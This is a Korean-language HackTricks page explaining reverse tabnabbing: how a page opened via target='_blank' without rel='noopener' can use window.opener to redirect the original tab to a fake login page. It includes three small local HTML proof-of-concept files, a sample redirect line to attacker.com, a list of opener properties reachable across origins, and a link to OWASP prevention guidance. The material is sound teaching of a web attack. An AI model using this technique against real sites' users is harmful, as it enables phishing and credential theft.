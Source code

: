 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# 설명

**공격자**가 **피해자**가 클릭할 **`<a`** 태그의 **`href`** 인자를 **제어**할 수 있는 상황에서, **공격자**는 이 **링크**를 자신의 제어 하에 있는 웹( **악성** **웹사이트**)으로 **지정**합니다. 그런 다음, **피해자가 링크를 클릭**하고 공격자의 웹사이트에 접근하면, 이 **악성** **웹사이트**는 **자바스크립트** 객체 **`window.opener`**를 통해 **원래** **페이지**를 **제어**할 수 있습니다.\
페이지에 **`rel="opener"`**가 없지만 **`target="_blank"`**가 포함되어 있고 **`rel="noopener"`**가 없으면, 또한 취약할 수 있습니다.

이 행동을 악용하는 일반적인 방법은 `window.opener.location = https://attacker.com/victim.html`을 통해 **원래 웹의 위치**를 공격자가 제어하는 웹으로 **변경**하는 것입니다. 이 웹은 **원래 웹사이트**처럼 보이도록 **구성**되어, **로그인** **폼**을 **모방**하고 사용자에게 자격 증명을 요청할 수 있습니다.

그러나 **공격자가 이제 원래 웹사이트의 윈도우 객체를 제어할 수 있으므로**, 그는 이를 다른 방식으로 악용하여 **은밀한 공격**을 수행할 수 있습니다(아마도 자바스크립트 이벤트를 수정하여 그가 제어하는 서버로 정보를 유출할 수 있겠죠?).

# 개요

## 백 링크가 있는 경우

예방 속성이 사용되지 않을 때 부모 페이지와 자식 페이지 간의 링크:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## 백 링크가 없는 경우

예방 속성이 사용될 때 부모 페이지와 자식 페이지 간의 링크:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## 예시 <a href="#examples" id="examples"></a>

다음 페이지를 폴더에 생성하고 `python3 -m http.server`로 웹 서버를 실행합니다.\
그런 다음, **접근** `http://127.0.0.1:8000/`vulnerable.html, **클릭**하여 **원래** **웹사이트**의 **URL**이 **변경**되는 것을 확인합니다.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## 접근 가능한 속성 <a href="#accessible-properties" id="accessible-properties"></a>

**교차 출처** 접근이 발생하는 시나리오(다른 도메인 간의 접근)에서, 악의적인 사이트가 접근할 수 있는 **opener** 자바스크립트 객체 참조로 지칭되는 **window** 자바스크립트 클래스 인스턴스의 속성은 다음과 같이 제한됩니다:

- **`opener.closed`**: 이 속성은 창이 닫혔는지 여부를 확인하기 위해 접근되며, 불리언 값을 반환합니다.
- **`opener.frames`**: 이 속성은 현재 창 내의 모든 iframe 요소에 대한 접근을 제공합니다.
- **`opener.length`**: 현재 창에 존재하는 iframe 요소의 수를 이 속성이 반환합니다.
- **`opener.opener`**: 현재 창을 연 창에 대한 참조를 이 속성을 통해 얻을 수 있습니다.
- **`opener.parent`**: 이 속성은 현재 창의 부모 창을 반환합니다.
- **`opener.self`**: 현재 창 자체에 대한 접근을 이 속성이 제공합니다.
- **`opener.top`**: 이 속성은 가장 상위의 브라우저 창을 반환합니다.

그러나 도메인이 동일한 경우, 악의적인 사이트는 [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) 자바스크립트 객체 참조에 의해 노출된 모든 속성에 접근할 수 있습니다.

# 예방

예방 정보는 [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing)에 문서화되어 있습니다.

## 참고 문헌

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
